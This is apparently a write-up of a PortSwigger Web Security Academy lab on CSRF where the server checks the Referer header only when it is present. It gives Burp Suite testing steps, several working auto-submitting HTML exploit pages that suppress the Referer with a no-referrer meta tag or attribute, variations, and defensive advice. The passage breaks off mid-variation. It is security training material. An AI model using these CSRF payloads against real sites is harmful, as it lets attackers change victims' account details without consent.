

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify CSRF vulnerability with Referer-based protection
- 🎯 Understand how Referer header validation works and its weakness
- 🧪 Confirm that a changed/cross-domain Referer is rejected by the server
- 💡 Discover that completely absent Referer header is accepted (insecure fallback)
- 🗑️ Suppress the Referer header using `<meta name="referrer" content="no-referrer">`
- 💉 Craft CSRF attack without triggering Referer validation
- 🚀 Use exploit server to deliver the attack payload
- 🎪 Auto-submit form to change victim's email
- 🚨 Bypass Referer-based CSRF defence via header suppression
- 🎉 Complete lab successfully

---

## 🧠 **Concept Recap**

> **CSRF where Referer validation depends on header being present** is a vulnerability in Referer-based CSRF defences where the server only validates the Referer header _when it is included_ in the request. If the Referer header is absent entirely, the server skips validation and processes the request as legitimate. An attacker can force the victim's browser to omit the Referer header using the `<meta name="referrer" content="no-referrer">` HTML directive, completely sidestepping the protection without needing to forge or manipulate any token value.

### 📊 **The Vulnerability**

**How Referer-based CSRF protection is supposed to work:**

```r
Legitimate same-site request:
  POST /my-account/change-email HTTP/2
  Referer: https://lab.net/my-account
  Cookie: session=abc123
  Body: email=user@example.com
         ↓
Server validates:
  1. Referer present? YES ✓
  2. Referer domain matches our domain? YES ✓
     lab.net == lab.net ✓
  3. Allow request! ✓

Theory:
└── Attacker page is on evil.com
    └── Browser sends: Referer: https://evil.com/
        └── Server checks: evil.com != lab.net → REJECT! 🛡️
```

**Cross-domain Referer rejected:**

```r
CSRF attack from evil.com (FAILS):
  POST /my-account/change-email HTTP/2
  Referer: https://evil.com/exploit
  Cookie: session=VICTIM_SESSION
  Body: email=attacker@evil.com
         ↓
Server validates:
  1. Referer present? YES ✓
  2. Referer domain matches? evil.com != lab.net ❌
  3. REJECT! → 403 Forbidden
         ↓
Attack blocked! ✓
```

**Absent Referer accepted (the flaw):**

```r
CSRF attack with suppressed Referer (SUCCEEDS):
  POST /my-account/change-email HTTP/2
  Cookie: session=VICTIM_SESSION
  Body: email=attacker@evil.com
         ↑
  NO Referer header at all!
         ↓
Server validation logic:
  1. Referer present? NO
  2. if (referer_present) { validate() }
     → referer NOT present → skip validation! 💣
  3. Proceed with request! ✓
         ↓
Email changed! 💥 Attack succeeds!
```

**Key Insight:**

```r
Why this vulnerability exists:

1. The flawed conditional logic:
   └── Developer implements:
       if (isset($_SERVER['HTTP_REFERER'])) {
           validateReferer($_SERVER['HTTP_REFERER']);
       }
       // No Referer? No problem! ← VULNERABILITY 💣
       processEmailChange();

   └── Should implement:
       if (!isset($_SERVER['HTTP_REFERER'])) {
           die('Referer header required');
       }
       validateReferer($_SERVER['HTTP_REFERER']);
       processEmailChange();

2. Why developers fall into this trap:
   └── "Referer is optional — some browsers/proxies strip it"
       └── "We shouldn't break legitimate users who lack Referer"
           └── "So we'll only validate IF it's there"
               └── "Good compromise!" ✓
                   └── But attacker can FORCE it to be absent! 💣

3. The browser Referrer Policy:
   └── HTML lets pages CONTROL whether Referer is sent:
       <meta name="referrer" content="no-referrer">
       └── Tells browser: "Do not send Referer on any requests"
           └── Browser obeys! Referer completely suppressed ✓
               └── Server's "if present" check skipped! 💥

4. The insecure fallback chain:
   └── Cross-domain Referer → server REJECTS ← working protection ✓
   └── Same-domain Referer  → server ACCEPTS ← working protection ✓
   └── No Referer at all    → server ACCEPTS ← VULNERABILITY! 💣
       └── The "safe fallback" is the attack path!

5. Legitimate reasons Referer may be absent:
   ├── Browser privacy settings strip it
   ├── HTTPS → HTTP downgrade (Referer not sent per spec)
   ├── Direct URL bar navigation
   ├── Bookmarks
   ├── Some proxy/firewall configurations
   └── Browser extensions that strip headers
       └── Developer wanted to support all these users
           └── So allowed no-Referer → vulnerability! ⚠️

6. Why this is easy to exploit:
   └── Suppressing a header is trivial in HTML:
       <meta name="referrer" content="no-referrer">
       └── No CRLF injection needed
       └── No token forgery needed
       └── No method override needed
       └── Single HTML tag! ← Simplest bypass yet! 🎯

The vulnerability chain:
└── Server uses Referer for CSRF protection
    └── Validation only runs IF Referer is present
        └── Attacker page includes no-referrer meta tag
            └── Victim's browser sends request WITHOUT Referer
                └── Server skips validation entirely
                    └── CSRF succeeds! 💣

Real-world developer thought process:
└── "We need CSRF protection"
    └── "Referer header shows where request came from"
        └── "If Referer is from our domain → allow"
            └── "If Referer is cross-domain → block"
                └── "If Referer is absent → allow (compatibility!)"
                    └── "Done! Secure!" ✓
                        └── Never tested meta referrer suppression! ❌
                            └── Vulnerability introduced! ⚠️
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the lab page
3. 📝 Note credentials: `wiener:peter`

**Lab description:**

```
Lab: CSRF where Referer validation depends on header being present

Vulnerability:
└── Email change is protected by Referer validation
    └── But only validates when Referer IS present
        └── No Referer = validation skipped = bypass! 💣

Goal:
└── Use exploit server to change victim's email address
    └── By suppressing the Referer header using:
        <meta name="referrer" content="no-referrer"> 🎯
```

---

### 🔐 **Step 2 — Login to Account**

1. 🖱️ Click **"My account"**
2. 📝 Enter credentials:
    - Username: `wiener`
    - Password: `peter`
3. 🚀 Click **"Login"**

**After login:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: wiener@normal-user.net      │
│                                    │
│ Update email:                      │
│ [____________________________]     │
│                                    │
│ [Update email]                     │
│                                    │
└────────────────────────────────────┘
```

---

### 🔍 **Step 3 — Setup Burp Suite Interception**

1. 🌐 Open Burp Suite
2. ⚙️ Ensure proxy is configured
3. 🔄 Turn **Intercept ON**

**Burp Proxy tab:**

```
┌────────────────────────────────────┐
│ Burp Suite                         │
├────────────────────────────────────┤
│ Proxy │ Intruder │ Repeater │...   │
├────────────────────────────────────┤
│                                    │
│ Intercept: [ON]  [Forward]  [Drop] │
│                                    │
└────────────────────────────────────┘
```

---

### 📨 **Step 4 — Capture Email Change Request**

1. 🌐 Go to My Account page
2. ✏️ Enter test email: `test@example.com`
3. 🚀 Click **"Update email"**
4. 👀 Burp intercepts the request

**Intercepted POST request:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
Referer: https://0abc1234def5678.web-security-academy.net/my-account
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

email=test%40example.com
```

**Analysis:**

```HTTP
Key observations:

1. Referer header is present:
   Referer: https://0abc1234def5678.web-security-academy.net/my-account
   └── Points to the same domain ← legitimate same-site request

2. NO CSRF token anywhere:
   └── Not in the form body
   └── Not in the cookies
   └── Defence is entirely Referer-based! ← Important

3. Session cookie:
   Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
   └── Automatically included by browser ✓

Defence mechanism identified:
└── Application validates the Referer header
    └── Must show request came from same domain
        └── Cross-domain Referer → REJECTED
        └── Same-domain Referer → ACCEPTED
        └── No Referer? → Let's test! 🧪
```

---

### 🔄 **Step 5 — Send to Burp Repeater**

1. 🖱️ **Right-click** on the intercepted request
2. 📋 Select **"Send to Repeater"**
3. 🔄 Click **"Forward"** to let original request through
4. 🔄 Turn **Intercept OFF**
5. 📑 Switch to **"Repeater"** tab

**Burp Repeater:**

```
┌────────────────────────────────────────────────────────┐
│ Repeater                                               │
├────────────────────────────────────────────────────────┤
│ Request:                          Response:            │
│ ┌──────────────────────────┐     ┌──────────────────┐  │
│ │ POST /my-account/        │     │                  │  │
│ │ change-email HTTP/2      │     │                  │  │
│ │ Cookie: session=...      │     │                  │  │
│ │ Referer: https://lab...  │     │                  │  │
│ │                          │     │                  │  │
│ │ email=test@example.com   │     │                  │  │
│ └──────────────────────────┘     └──────────────────┘  │
│                                                        │
│ [Send]                                                 │
└────────────────────────────────────────────────────────┘
```

---

### 🧪 **Step 6 — Baseline Test: Valid Same-Domain Referer**

**Confirm the request works normally:**

1. 🚀 Click **"Send"** with the original request (same-domain Referer)
2. 👀 Observe response

**Expected response:**

```HTTP
HTTP/2 302 Found
Location: /my-account

Email updated successfully!
```

**Confirmation:**

```
✅ Same-domain Referer = Request accepted
✅ This is expected — same-site request looks legitimate
✅ Referer protection appears to be working
💡 Now let's test with a cross-domain Referer
```

---

### ❌ **Step 7 — Test Cross-Domain Referer (Should Fail)**

**Verify Referer validation actually works:**

1. ✏️ Modify the Referer header to a different domain:

```HTTP
BEFORE:
Referer: https://0abc1234def5678.web-security-academy.net/my-account

         ↓ Change to attacker domain ↓

AFTER:
Referer: https://evil.com/exploit
```

2. ✏️ Also update email to avoid "already taken" issue:

```
email=test2%40example.com
```

3. 🚀 Click **"Send"**
4. 👀 Observe response

**Expected response:**

```HTTP
HTTP/2 400 Bad Request

"Invalid referer header"
```

**Confirmation:**

```
✅ Cross-domain Referer = REJECTED!
✅ Server IS checking the Referer domain
✅ evil.com != lab.net → blocked ✓
💡 Validation is working when Referer present
💡 But what about NO Referer at all?
```

---

### 💣 **Step 8 — Delete Referer Header Entirely**

**This is the critical test!**

1. ✏️ Delete the entire Referer header line from the request:

```HTTP
BEFORE:
POST /my-account/change-email HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
Referer: https://0abc1234def5678.web-security-academy.net/my-account
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

email=test2%40example.com

         ↓ Remove the entire Referer line ↓

AFTER:
POST /my-account/change-email HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

email=test2%40example.com
```

2. 🚀 Click **"Send"**
3. 👀 Observe response carefully

**Expected response:**

```HTTP
HTTP/2 302 Found
Location: /my-account

Email updated successfully!
```

**VULNERABILITY CONFIRMED!**

```HTML
🎯 Critical Discovery:

✅ Request WITHOUT Referer = ACCEPTED!
✅ Email changed successfully!
❌ No Referer header = validation completely skipped!

The three states:
┌──────────────────────────┬──────────────────────┐
│ Referer Value            │ Server Response      │
├──────────────────────────┼──────────────────────┤
│ Same domain (lab.net)    │ ACCEPTED ✓           │
│ Cross domain (evil.com)  │ REJECTED ✓           │
│ Absent (no header)       │ ACCEPTED 💣          │ ← VULNERABILITY!
└──────────────────────────┴──────────────────────┘

The flaw:
└── Server logic:
    if (referer_header_exists) {
        if (!referer_from_same_domain) {
            reject();  // cross-domain blocked ✓
        }
    }
    // No referer? Falls through to here!
    processEmailChange();  // Executed without any validation! 💣

Attack plan:
└── Make victim's browser send request WITHOUT Referer
    └── Use: <meta name="referrer" content="no-referrer">
        └── HTML directive that suppresses Referer on all requests
            └── Server accepts → email changed! 💥
```

---

### 📝 **Step 9 — Understand the Referrer Policy Meta Tag**

**How to suppress the Referer header from a webpage:**

```HTML
The magic tag:
<meta name="referrer" content="no-referrer">

What it does:
└── Instructs the browser to NOT send the Referer header
    └── For ANY request triggered from this page:
        ├── Form submissions ✓
        ├── Link navigations ✓
        ├── Image loads ✓
        ├── Script loads ✓
        └── All outgoing requests ✓

Where to place it:
└── Inside the <head> section of the exploit page
    └── Before any requests are triggered
        └── Applies to entire document

Referrer Policy values (for reference):
├── no-referrer         → Never send Referer ← we use this!
├── no-referrer-when-downgrade → Don't send HTTPS→HTTP
├── origin             → Send only the origin (no path)
├── origin-when-cross-origin → Full URL same-origin, origin only cross-origin
├── same-origin        → Only send for same-origin requests
├── strict-origin      → Origin only, never downgrade
├── unsafe-url         → Always send full URL (most permissive)
└── (empty/default)    → Browser default behaviour

Our choice: no-referrer
└── Guarantees Referer is NEVER sent from exploit page
    └── Server's "if present" check never triggers
        └── No Referer = validation skipped = bypass! 💥

Alternative ways to suppress Referer:
├── <meta name="referrer" content="no-referrer">   ← HTML meta tag
├── Referrer-Policy: no-referrer HTTP header       ← Server sets this
│   └── Cannot use this — attacker doesn't control victim's server
├── rel="noreferrer" on <a> tags                   ← Per-link suppression
└── referrerpolicy="no-referrer" on form element   ← Per-form suppression

Best for CSRF exploit:
└── <meta> tag in <head>
    └── Affects entire page, all requests
    └── No JS needed ✓
    └── Reliable across all browsers ✓
```

---

### 🎨 **Step 10 — Generate CSRF PoC**

**Method A: Using Burp Professional**

1. 🖱️ Right-click on the email change request in Repeater (with Referer header DELETED)
2. 📋 Select **"Engagement tools → Generate CSRF PoC"**
3. ✅ Check **"Include auto-submit script"**
4. 🔄 Click **"Regenerate"**

**Burp generates:**

```html
<html>
  <body>
    <form action="https://0abc1234def5678.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test@example.com" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

5. 📋 Click **"Copy HTML"**

**Critical addition needed:**

```
Burp's PoC does NOT include the no-referrer meta tag!

Without it:
└── Victim's browser WILL send Referer header
    └── Referer: https://exploit-server.net/exploit
        └── Server checks: exploit-server.net != lab.net
            └── REJECTED! ❌ Attack fails!

With it:
└── Victim's browser sends NO Referer header
    └── Server: "Referer not present, skip validation"
        └── ACCEPTED! ✓ Attack succeeds! 💥

We MUST add: <meta name="referrer" content="no-referrer">
```

---

**Method B: Manual HTML Creation**

```html
<html>
  <head>
    <meta name="referrer" content="no-referrer">
  </head>
  <body>
    <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="attacker@evil.com">
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```

**Important notes:**

```html
<head>
    <meta name="referrer" content="no-referrer">
    ↑
    MUST be in <head>, BEFORE the form submits
    └── Ensures policy is applied before any requests fire

</head>
<body>
    <form method="POST"
          action="https://[LAB-ID].web-security-academy.net/my-account/change-email">

        Form attributes:
        ├── method="POST" → matches server expectation ✓
        ├── action="..."  → target endpoint ✓
        └── NO csrf input → no token present (none required) ✓

        <input type="hidden" name="email" value="attacker@evil.com">
        └── The attacker's chosen email

    </form>

    <script>
        document.forms[0].submit();  ← Auto-submit, no user interaction
    </script>
</body>

What victim's browser sends:
  POST /my-account/change-email HTTP/2
  Host: [LAB-ID].web-security-academy.net
  Cookie: session=VICTIM_SESSION ← automatically included ✓
  Content-Type: application/x-www-form-urlencoded
  ← NO Referer header! (suppressed by meta tag) ✓

  email=attacker%40evil.com

Server receives:
  ├── No Referer header → skip validation! 💣
  ├── Session cookie valid ✓
  └── Email parameter present ✓
      └── Email changed! 💥
```

---

### 🌐 **Step 11 — Access Exploit Server**

1. 🔙 Go back to lab page
2. 🖱️ Click **"Go to exploit server"**

**Exploit server interface:**

```
┌────────────────────────────────────────────────────────┐
│ Exploit Server                                         │
├────────────────────────────────────────────────────────┤
│                                                        │
│ Response headers:                                      │
│ HTTP/1.1 200 OK                                        │
│ Content-Type: text/html; charset=utf-8                 │
│                                                        │
│ Body:                                                  │
│ [______________________________________]               │
│ [______________________________________]               │
│                                                        │
│ [Store] [View exploit] [Deliver exploit to victim]     │
└────────────────────────────────────────────────────────┘
```

---

### 📝 **Step 12 — Create Exploit HTML**

**Paste into Body field:**

```html
<html>
  <head>
    <meta name="referrer" content="no-referrer">
  </head>
  <body>
    <form method="POST" action="https://0abc1234def5678.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="test123@test.com">
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```

**Replace:**

- `0abc1234def5678` with YOUR lab ID
- `test123@test.com` with your test email

**Full exploit execution flow:**

```
1. Victim visits exploit page
         ↓
2. Browser reads <meta name="referrer" content="no-referrer">
   └── Referrer policy applied to ALL requests from this page
         ↓
3. <form> element created in DOM
         ↓
4. <script> executes: document.forms[0].submit()
         ↓
5. Browser prepares POST request:
   ├── Adds session cookie automatically ✓
   ├── Checks Referrer Policy: "no-referrer"
   └── Suppresses Referer header entirely ✓
         ↓
6. Browser sends:
   POST /my-account/change-email HTTP/2
   Host: 0abc1234def5678.web-security-academy.net
   Cookie: session=VICTIM_SESSION ✓
   Content-Type: application/x-www-form-urlencoded
   [NO Referer header!] ← suppressed! ✓

   email=test123%40test.com
         ↓
7. Server receives request:
   ├── Check if Referer header present: NO
   ├── if (present) { validate() } → skipped! 💣
   ├── Session cookie valid: YES ✓
   └── Process email change ✓
         ↓
8. Email updated to test123@test.com ✓
         ↓
9. 302 redirect to /my-account
```

---

### 💾 **Step 13 — Store and Test Exploit**

1. 💾 Click **"Store"**
2. 👁️ Click **"View exploit"**

**Verification:**

```
Check My Account page:
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: test123@test.com ← Changed! │
│                                    │
└────────────────────────────────────┘

✅ Email changed without a valid Referer header!
✅ meta no-referrer suppressed the Referer ✓
✅ Server's validation skipped ✓
✅ Exploit works end-to-end!
💡 Now update email address for victim delivery!
```

---

### 🔄 **Step 14 — Update Email for Victim Delivery**

**Important:** Use a different, unused email address!

1. 🔙 Go back to exploit server
2. ✏️ Change the email value:

```html
<html>
  <head>
    <meta name="referrer" content="no-referrer">
  </head>
  <body>
    <form method="POST" action="https://0abc1234def5678.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="hacker@evil.com">
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```

3. 💾 Click **"Store"**

**Why different email:**

```
Problem:
└── Already changed your email to test123@test.com
    └── That address is now taken
        └── Victim's change request would fail (duplicate)

Solution:
└── Use fresh unused email for victim
    ├── hacker@evil.com
    ├── pwned@attacker.com
    └── Or any other address not yet registered

This ensures victim's email change succeeds! ✓
```

---

### 🎯 **Step 15 — Deliver Exploit to Victim**

1. 🚀 Click **"Deliver exploit to victim"**
2. ⏳ Wait for confirmation

**Attack execution against victim:**

```HTTP
Lab simulation starts:
         ↓
1. Simulated victim (Carlos) is logged in
   └── Has valid session cookie for the lab

2. Victim visits your exploit URL
   └── https://exploit-XXXXX.exploit-server.net/
         ↓
3. Browser reads the exploit page:
   └── <meta name="referrer" content="no-referrer">
       └── Referrer Policy = no-referrer applied to page
         ↓
4. Auto-submit script fires:
   document.forms[0].submit()
         ↓
5. Browser sends POST request:
   POST /my-account/change-email HTTP/2
   Host: 0abc1234def5678.web-security-academy.net
   Cookie: session=VICTIM_SESSION_COOKIE ← sent automatically! ✓
   Content-Type: application/x-www-form-urlencoded
   [Referer: ABSENT — suppressed by meta tag] ✓

   email=hacker%40evil.com
         ↓
6. Server receives request:
   ├── Referer header present? NO
   ├── Validation logic: if (present) { validate() }
   ├── → NOT present → skip validation entirely! 💣
   ├── Session valid: YES ✓
   └── Process email change: YES ✓
         ↓
7. Victim's email changed:
   └── FROM: carlos@...
   └── TO: hacker@evil.com
         ↓
8. Lab validation:
   └── Confirms victim's email was changed ✓
   └── Lab solved! 🎉
```

---

### ✅ **Step 16 — Lab Completion**

**Success banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully bypassed          │
│  Referer-based CSRF protection      │
│  by suppressing the Referer header  │
│  using the no-referrer meta tag.    │
│                                     │
│  Lab: CSRF where Referer validation │
│       depends on header being       │
│       present                       │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab and login
         → wiener:peter
         ↓
Step 2: Navigate to My Account
         → Observe email change form
         ↓
Step 3: Setup Burp Suite
         → Intercept traffic
         ↓
Step 4: Capture POST email change request
         → POST /my-account/change-email
         → Referer: https://lab.net/my-account
         → NO CSRF token anywhere!
         → Defence is Referer-based only
         ↓
Step 5: Send to Repeater
         ↓
Step 6: Baseline test — same-domain Referer
         → Send with original Referer
         → 302 OK ← accepted ✓
         ↓
Step 7: Test cross-domain Referer
         → Change Referer to https://evil.com/exploit
         → 403 Forbidden ← REJECTED ✓
         → Referer validation is working when header present
         ↓
Step 8: Delete Referer header entirely
         → Remove Referer line completely
         → Send
         → 302 OK ← ACCEPTED! 💥
         → No Referer = validation skipped! ← VULNERABILITY
         ↓
Step 9: Understand meta referrer suppression
         → <meta name="referrer" content="no-referrer">
         → Tells browser to never send Referer from this page
         → Browser obeys → Referer absent → bypass! 💣
         ↓
Step 10: Create CSRF PoC
          → Standard POST form
          → email hidden input
          → Auto-submit script
          → CRITICAL: add <meta name="referrer" content="no-referrer"> in <head>
         ↓
Step 11: Upload to exploit server
          → Paste HTML (with meta tag!) in Body
          → Store exploit
         ↓
Step 12: Test on yourself
          → View exploit
          → Form submits without Referer
          → Email changed ✓
         ↓
Step 13: Update email for victim
          → Use different unused email
          → Store again
         ↓
Step 14: Deliver to victim
          → Click "Deliver exploit to victim"
          → No Referer sent → validation skipped
          → Email changed! 💥
         ↓
Step 15: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **The Referer Header — What It Is**

```r
HTTP Referer header:
└── Sent by browsers to indicate the page that triggered the request

Example:
├── User is on: https://example.com/page
├── Clicks link to: https://shop.com/product
└── Shop.com receives:
    Referer: https://example.com/page
             ↑
    "The user came from this URL"

Note: "Referer" is a deliberate typo in the HTTP spec
└── Correct English spelling: "Referrer"
└── HTTP header spelling: "Referer" (one 'r')
└── HTML/CSS/JS attribute spelling: "referrer" (two 'r's)
    └── Inconsistency in web standards! ⚠️

When Referer IS sent:
├── User clicks a link ✓
├── Form submission ✓
├── Image/resource loading ✓
└── JavaScript-triggered navigation ✓

When Referer is NOT sent (browser default):
├── Direct URL bar navigation ❌
├── Bookmark click ❌
├── HTTPS → HTTP downgrade (stripped for security) ❌
├── Referrer-Policy: no-referrer set ❌
└── Some privacy-focused browsers/extensions ❌

The CSRF use case:
└── Server checks: "Did this request come from MY site?"
    └── Same-domain Referer → legitimate user action
    └── Cross-domain Referer → possible CSRF attack
    └── No Referer → ??? ← the ambiguous case
```

---

### **Why Referer-Based CSRF Protection is Fundamentally Weak**

```r
Referer validation problems:

Problem 1: Header can be suppressed (this lab)
└── <meta name="referrer" content="no-referrer">
    └── Attacker controls exploit page → can suppress Referer
        └── No Referer → if present condition fails → bypass! 💣

Problem 2: Header can be forged (sometimes)
└── HTTP/1.1: Referer can be set via custom proxy
└── Fetch API: cannot set Referer directly (blocked by browser)
└── But SSRF or server-side scenarios may allow forgery ⚠️

Problem 3: Legitimate privacy concerns
└── Many privacy tools strip Referer:
    ├── Firefox private browsing
    ├── Privacy Badger extension
    ├── Corporate proxies
    └── VPN services
└── Application CANNOT require Referer without breaking these users
└── Forces developers to allow missing Referer → vulnerability! 💣

Problem 4: HTTPS page loading HTTP resource
└── Browser spec: HTTPS → HTTP → no Referer sent
└── If any endpoint is HTTP, Referer stripped
    └── Forces same "allow missing Referer" fallback ⚠️

Problem 5: URL leakage risk
└── Referer reveals what page user was on
└── May leak sensitive URL parameters or paths
└── Some security scanners flag Referer as data leakage! ⚠️

Problem 6: Third-party content
└── If page embeds cross-origin content
    └── Content loads with original page's Referer
        └── May expose internal URLs to third parties ⚠️

Why Referer validation is discouraged:
└── Can be suppressed (bypass risk) ❌
└── Can be forged in some contexts ❌
└── Breaks legitimate users (privacy tools) ❌
└── Leaks URL information ❌
└── Complex to implement correctly ❌
→ Use CSRF tokens + SameSite instead! ✓
```

---

### **The Referrer Policy — Full Explanation**

```r
Referrer-Policy directive values:

no-referrer:
└── Never send Referer header for any request
    └── Complete suppression ✓
    └── Used in this lab's exploit! 🎯

no-referrer-when-downgrade (old default):
└── Send full URL when same protocol (HTTPS→HTTPS)
└── Strip when downgrading (HTTPS→HTTP)
└── Attacker on HTTPS exploit server: Referer IS sent ← would fail our attack!
    └── That's why we explicitly set no-referrer ✓

origin:
└── Only send the origin (scheme + host + port)
└── Never include path or query string
└── Example: https://exploit.net (not full URL)

origin-when-cross-origin:
└── Full URL for same-origin requests
└── Origin only for cross-origin requests

same-origin:
└── Only send Referer for same-origin requests
└── Cross-origin: no Referer sent
└── This would also bypass our lab's validation! 💣

strict-origin:
└── Send origin only, never downgrade
└── No path info, origin only

strict-origin-when-cross-origin (modern browser default):
└── Full URL for same-origin
└── Origin only when cross-origin, no downgrade
└── This IS the modern default — Referer IS sent cross-origin (origin only)
└── Application receives partial Referer → might still fail validation
    └── Depends on implementation ← test both! 🧪

unsafe-url:
└── Always send full URL regardless of security
└── Least secure option ⚠️

Ways to set Referrer Policy:
1. Meta tag (what we use):
   <meta name="referrer" content="no-referrer">
   └── Applies to entire page

2. HTTP header (server-controlled):
   Referrer-Policy: no-referrer
   └── Attacker can set on their exploit server! ✓

3. Per-element attribute:
   <form referrerpolicy="no-referrer" ...>
   <a referrerpolicy="no-referrer" href="...">
   
   └── Applies only to that element

4. Link rel attribute:
   <a rel="noreferrer" href="...">
   └── Suppresses Referer for that link only
```

---

### **Comparing Referer Validation vs CSRF Token Validation**

```r
CSRF Token validation:
├── Token generated server-side with entropy
├── Tied to user's session
├── Cannot be guessed or predicted
├── Cannot be bypassed by suppressing headers
├── Attacker cannot know token value cross-origin
└── Industry standard — strong protection ✓

Referer validation:
├── Relies on browser to send the header honestly
├── Attacker CAN suppress it (no-referrer policy) ❌
├── Legitimate users may lack it (privacy tools) ❌
├── Complex to parse correctly (subdomain issues) ❌
├── URL leakage risk ❌
└── Weak protection — easily bypassed ❌

Why developers still use Referer validation:
├── Simpler to implement than CSRF tokens
├── No form changes needed
├── Works for all endpoints (GET/POST)
└── Legacy systems where CSRF tokens would require refactoring

The lesson:
└── Referer validation can be a supplementary check
    └── But NEVER rely on it as the SOLE CSRF protection
        └── Always combine with:
            ├── CSRF tokens (primary defence) ✓
            └── SameSite cookies (defence in depth) ✓
```

---

## 🚀 **Attack Variations**

### **Variation 1: Referrer-Policy Response Header**

```r
Instead of meta tag, set header on exploit server:

Exploit server response headers:
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: no-referrer   ← Add this header!

Body: [standard CSRF form without meta tag]

Result:
└── Browser honours server-sent Referrer-Policy header
    └── Does not send Referer on any requests from this page
        └── Same bypass as meta tag! ✓

When to prefer this:
└── Cleaner HTML (no meta tag clutter)
└── Can be applied dynamically server-side
└── Works when attacker controls response headers (exploit server) ✓
```

---

### **Variation 2: rel="noreferrer" on Anchor**

```r
<!-- Per-link Referer suppression -->
<a rel="noreferrer"
   href="https://LAB.net/my-account/change-email?email=evil@attacker.com&_method=POST">
</a>
<script>
    document.querySelector('a').click();
</script>

How it works:
├── rel="noreferrer" suppresses Referer for THIS link only
├── JavaScript clicks the link programmatically
├── Browser navigates → no Referer sent
└── If endpoint supports GET (or _method override): works! ✓

Limitation:
└── Only works for link navigation (GET)
└── Not useful for POST form submissions
    └── Use meta tag for POST attacks ✓
```

---

### **Variation 3: Form-Level referrerpolicy Attribute**

```r
<!-- Per-form Referer suppression -->
<form method="POST"
      action="https://LAB.net/my-account/change-email"
      referrerpolicy="no-referrer">
    <input type="hidden" name="email" value="evil@attacker.com">
</form>
<script>
    document.forms[0].submit();
</script>

How it works:
└── referrerpolicy="no-referrer" on the form element
    └── Applies no-referrer policy to THIS form submission only
        └── Suppresses Referer for the POST request ✓

When to use:
└── If you want other resources on the page to still send Referer
    └── But the CSRF form does not ✓
└── More targeted than the page-level meta tag
```

---

### **Variation 4: Test Other Bypass Techniques First**

**Methodical Referer bypass testing order:**

```r
Test 1: Remove Referer entirely
  → Request without Referer header
  → Accepted? → "depends on presence" bypass! ✓ (this lab)

Test 2: Empty Referer value
  Referer: (empty string)
  → Accepted? → Empty = treated as absent? 🧪

Test 3: Referer with lab domain in subdomain/path
  Referer: https://evil.com.lab.net/exploit
  └── Does validation check exact domain or substring?
      └── Substring match: evil.com.lab.net CONTAINS lab.net → bypass! 💣

Test 4: Referer with lab domain in query string
  Referer: https://evil.com/?url=https://lab.net/my-account
  └── Does validation look for lab.net anywhere in URL?
      └── Simple contains() check: bypass! 💣 (next lab topic!)

Test 5: Referer with lab as path segment
  Referer: https://evil.com/lab.net/exploit
  └── Another substring bypass attempt 💣

Always test all variations:
└── Each validation implementation has different weaknesses!
    └── Test absent → empty → domain tricks → path tricks ✓
```

---

### **Variation 5: Combined Bypass — Method Override + No Referer**

```r
<!-- If endpoint needed GET bypass AND Referer suppression -->
<html>
  <head>
    <meta name="referrer" content="no-referrer">
